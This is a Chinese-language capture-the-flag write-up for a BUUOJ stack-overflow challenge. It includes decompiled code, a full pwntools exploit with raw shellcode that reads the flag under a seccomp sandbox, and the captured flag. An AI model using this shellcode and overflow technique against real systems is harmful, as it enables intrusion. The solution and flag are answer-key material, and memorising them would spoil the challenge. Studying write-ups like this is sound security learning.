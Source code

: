 # [极客大挑战 2019]Not Bad

[题目地址](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Not%20Bad)

基础不够，[wp](https://blog.csdn.net/weixin_46521144/article/details/115196495)来凑。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

看这个checksec就知道这题难不到哪里去。

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  mmap((void *)0x123000, 0x1000uLL, 6, 34, -1, 0LL);
  seccomp();
  setvbuf();
  vuln();
  return 0LL;
}
```

main函数很简单，seccomp设置了沙盒，只能用open，read和wirte三个函数，我就不放了。漏洞在vuln函数里，看vuln。

```c
int vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Easy shellcode, have fun!");
  read(0, buf, 0x38uLL);
  return puts("Baddd! Focu5 me! Baddd! Baddd!");
}
```

溢出字节不多，容易想到栈迁移。不过这题nx都没开，搞栈迁移有点小题大做了，直接跟程序里说的一样构造shellcode。沙盒有点烦人，这次的shellcode是拿不到shell了，用个orw读flag。orw其实就是open-read-write的缩写。这题有个神奇的地方，buf正好在rsp，让我们的利用轻松了许多。wp写得很详细了，我就再补充一下。

```python
from pwn import *
context.arch='amd64'
context.log_level='debug'

s=remote('node4.buuoj.cn',28889)

mmap=0x123000
jmp_rsp=0x400a01

""" orw_payload = shellcraft.open("./flag") 打开flag文件
orw_payload += shellcraft.read(3, mmap+0x100, 0x50) 根据打开的flag文件句柄（0，1，2系统占用，接下来打开的文件一般都是3）读取flag到mmap段
orw_payload += shellcraft.write(1, mmap+0x100,0x50) 输出flag

payload=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax') 这里的shellcode先调用read把装不下的orw shellcode读取到mmap段，然后把orw shellcode的起始地址mov进rax，call rax开始执行orw shellcode
payload=payload.ljust(0x28,b'\x00') 作填充，让下面的内容能覆盖到返回地址
payload+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp') """ #jmp_rsp覆盖到了返回地址，程序会执行jmp_rsp。当程序执行到这一句时，rsp会对应着接下来的asm('sub rsp,0x30;jmp rsp')，那么jmp rsp就是执行了sub rsp,0x30;jmp rsp。sub rsp，0x30让rsp回到buf的起始处asm(shellcraft.read(0,mmap,0x100))，因为payload的前部分0x28+p64(jmp_rsp)=0x30。jmp rsp就能执行buf里的shellcode了
payload=b'1\xc01\xff1\xd2\xb6\x01\xbe\x01\x01\x01\x01\x81\xf6\x011\x13\x01\x0f\x05H\xc7\xc0\x000\x12\x00\xff\xd0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\n@\x00\x00\x00\x00\x00H\x83\xec0\xff\xe4'
s.sendline(payload)
orw_payload=b'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8/.gm`f\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x03_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x010\x13\x01\x0f\x05j\x01_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x010\x13\x01j\x01X\x0f\x05'
s.send(orw_payload)

s.interactive()
```

## Flag
> flag{96f03c6d-b6b2-4310-903b-061652ab1f90}